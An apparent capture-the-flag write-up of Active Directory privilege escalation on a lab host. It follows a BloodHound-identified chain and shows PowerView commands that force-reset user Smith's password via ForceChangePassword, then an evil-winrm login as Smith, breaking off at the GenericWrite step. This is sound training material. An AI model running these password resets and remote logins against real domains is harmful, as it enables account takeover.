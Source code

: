<img width="976" height="251" alt="image" src="https://github.com/user-attachments/assets/eb2dbe4d-727b-4de3-9c80-3d3dfe6bc970" />


### On Bloodhound we find the chain 


<img width="1606" height="992" alt="image" src="https://github.com/user-attachments/assets/d9ff2782-b4f5-4da8-b2aa-720d6a7ac467" />


<img width="1143" height="214" alt="image" src="https://github.com/user-attachments/assets/2ecaa0ba-aa77-4dc3-bbe7-5726f2e630c3" />

# Oliver -> Smith -> Maria -> Root

# Oliver -> Smith ( have ForceChangePassword )

<img width="531" height="129" alt="image" src="https://github.com/user-attachments/assets/431c4647-cf48-4ba2-8d0b-39e35cebbb82" />

### First we uplode powerview

```
upload powerview.ps1
```
### We execute powerview

```
. .\powerview.ps1
```

### We change the passwd

```
$newpass = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force
```


```
Set-DomainUserPassword -Identity smith -AccountPassword $newpass
```

<img width="977" height="407" alt="image" src="https://github.com/user-attachments/assets/0b810058-d768-4ce4-bb43-4cda5a007726" />


# Smith -> Maria ( have GenericWrite )

<img width="639" height="153" alt="image" src="https://github.com/user-attachments/assets/c43d6037-aa2d-45e4-a28e-c3b3320eacf1" />


### First we connect to Smith

```
evil-winrm -i 10.10.11.132 -u "smith" -p 'Password1234!'
```
